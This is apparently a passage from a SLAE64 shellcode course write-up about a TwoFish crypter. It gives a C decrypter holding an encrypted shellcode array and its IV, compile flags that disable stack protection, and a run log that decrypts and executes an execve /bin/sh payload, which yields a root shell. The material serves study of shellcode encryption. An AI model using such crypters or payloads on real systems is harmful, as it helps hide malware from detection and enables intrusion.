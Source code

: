<img src="https://galminyana.github.io/img/A07_TwoFish_Crypter_Compile.png" width="75%" height="75%">

#### Decrypt and Execute the Shellcode
To decrypt, in the file [TwoFish_Decrypter.c](https://github.com/galminyana/SLAE64/blob/main/Assignment07/TwoFish_Decrypter.c), is needed to:
- Put the hex value for the IV in the `IV[IV_SIZE]` string
- Put the hex encrypted shellcode in the `code[]` string

```c
unsigned char IV[IV_SIZE] = \
"\xae\xf6\x9d\xac\xf7\xfa\x5e\xf1\x05\x4e\x79\x69\xc4\x38\x0a\xfa";

unsigned char code[]= \
"\x33\x67\x20\x48\x7c\xcc\x09\x15\xbc\xbb\x12\x56\xfb\xe4\xfe\x74\xaf\x21\x38\x48\x48\x01\xe8\xee\x2c\x73\xa0\x1a\xe3\xba\x5c\xc4";
```

> To compile, a part of the same flags used for `libmcrypt` the `-fno-stack-protector -z execstack` flags are needed too.

Now let's compile the program as usual:

```bash
SLAE64> gcc -L/usr/include -lmcrypt -fno-stack-protector -z execstack TwoFish_Decrypter.c -o TwoFish_Decrypter
SLAE64> 
```

And time to execute it. The output generated is:
- The encrypted shellcode and it's size in bytes
- The Password used to crypt
- The generated IV in hex format for the encryption
- The decrypted shellcode in ASM and C format. **_This shellcode has to be the same one as the original_**

```c 
SLAE64> ./TwoFish_Decrypter 

Crypted Shellcode (32 bytes):
0x33,0x67,0x20,0x48,0x7c,0xcc,0x09,0x15,0xbc,0xbb,0x12,0x56,0xfb,0xe4,0xfe,0x74,0xaf,0x21,0x38,0x48,0x48,0x01,0xe8,0xee,0x2c,0x73,0xa0,0x1a,0xe3,0xba,0x5c,0xc4

TwoFish IV value: 0xae,0xf6,0x9d,0xac,0xf7,0xfa,0x5e,0xf1,0x05,0x4e,0x79,0x69,0xc4,0x38,0x0a,0xfa
TwoFish Password Used: 12345678

DeCrypted Shellcode:

  ASM Format: 
0x48,0x31,0xc0,0x50,0x48,0xbb,0x2f,0x62,0x69,0x6e,0x2f,0x2f,0x73,0x68,0x53,0x48,0x89,0xe7,0x50,0x48,0x89,0xe2,0x57,0x48,0x89,0xe6,0x48,0x83,0xc0,0x3b,0x0f,0x05

  C Format: 
\x48,\x31,\xc0,\x50,\x48,\xbb,\x2f,\x62,\x69,\x6e,\x2f,\x2f,\x73,\x68,\x53,\x48,\x89,\xe7,\x50,\x48,\x89,\xe2,\x57,\x48,\x89,\xe6,\x48,\x83,\xc0,\x3b,\x0f,\x05

# w
 11:46:44 up 19 min,  1 user,  load average: 0.01, 0.03, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty7     :0               11:27   19:35   7.62s  7.62s /usr/lib/xorg/
# exit
SLAE64> 
```
